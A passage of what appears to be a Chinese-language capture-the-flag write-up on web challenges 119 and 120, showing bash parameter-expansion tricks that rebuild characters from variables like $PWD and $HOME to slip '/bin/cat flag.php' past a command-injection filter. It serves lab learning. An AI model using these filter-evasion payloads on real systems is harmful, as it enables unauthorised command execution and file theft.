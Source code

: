> ${PWD:~A} = 取最后一位 = l
>
> ### 
>
> ${PWD:${#}:${##}}???${PWD:${#}:${##}}?${PWD:${SHLVL}:${#SHLVL}}${PWD:~${SHLVL}:${#SHLVL}}$IFS?${PWD:~A}??.???

## Web119

FUZZ测试后过滤字符跟上一题一样

直接用上面php临时文件执行命令的方法就可以

![web119_flag](./image/web119_flag.png)

其他payload

```
${HOME:${#HOSTNAME}:${#SHLVL}}     ====>   t

${PWD:${Z}:${#SHLVL}}    ====>   /

/bin/cat flag.php

${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```

## Web120

题目：
